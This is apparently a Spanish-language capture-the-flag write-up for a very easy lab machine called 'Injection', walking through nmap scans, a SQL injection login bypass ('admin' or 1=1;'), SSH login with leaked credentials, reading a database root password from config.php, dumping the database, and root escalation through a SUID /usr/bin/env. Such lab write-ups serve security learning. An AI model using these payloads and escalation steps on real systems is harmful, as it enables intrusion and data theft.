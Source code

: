 Nombre de la máquina: Injection
Dificultad: Muy fácil 
Tiempo: 1 hora


Empezamos con un escaneo normal:

`
nmap 172.17.0.3
`

En el que obtenemos como respuesta que los puertos 22/TCP y 80/TCP están abiertos. 

Al tener esta información, podemos ser ya un poco más especificos e intentar obtener más datos que nos puedan ayudar:

`
nmap 172.17.0.3 -sV -p 22,80
`

Obtenemos como respuesta:
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))


Como en el puerto 80/TCP está corriendo una página web, probaremos a poner en nuestro navegador 172.17.0.3 para ver que tipo de página es. 
La web que está alojando Apache es una página de login, como la máquina se llama Injection, suponemos que será algo relacionado con SQLInjection y probaremos a introducir en el campo del nombre " admin' or 1=1; " y la contraseña cualquier cosa. 

Con eso hemos conseguido acceder y visualizar el siguiente mensaje:

`Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78`

Tenemos un nombre de usuario (Dylan) y un código (KJSDFG789FGSDF78) que puede ser una contraseña. Probamos a conectarnos por ssh con esas credenciales:

`
ssh dylan@172.17.0.3 
` 

El acceso fue exitoso. Ya estamos dentro de la máquina. Con sudo -l obtuve una respuesta de que el comando no existía asi que no se me ocurría una forma de poder escalar privilegios, estuve explorando las carpetas de ssh y tampoco encontré nada. Sin embargo, en las carpetas del servidor web, /var/www/html haciendo un cat del archivo config.php:


return [
        'db' => [
                'host' => 'localhost',
                'user' => 'root',
                'passwd' => 'paso',
                'dbname' => 'register',
                'options' => [
                        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION
                ]
        ]
];



Intentaremos conectarnos con mysql utilizando esas credenciales:
`
mysql -u root -ppaso
`

Hacemos un:
`
show databases;
`
`
 use register;
`
`
select * from users;
` 


Aunque ya sabemos que existe una base de datos llamada register, pues aparece en config.php, obtenemos:


+----------+------------------+
| username | passwd           |
+----------+------------------+
| dylan    | KJSDFG789FGSDF78 |
+----------+------------------+


Era información que ya teniamos, pero probaremos lo siguiente:
`
INSERT INTO users VALUES ('prueba','123456');
`
`
INSERT INTO users VALUES ('prueba','123456');
`
`
DELETE FROM users WHERE username='prueba1';
`

Todas las consultas fueron exitosas, por lo que podemos decir que tenemos control sobre esa base de datos, pues podemos crear y eliminar los que queramos. Al igual que hacer un:

`
mysqldump --databases register -u root -ppaso > datos.sql
`

Para obtener los datos.

Aunque aún no fuimos capaces de escalar privilegios en la máquina. 


`find / -perm -4000 -user root 2>/dev/null`


`/usr/bin/env /bin/bash -p`











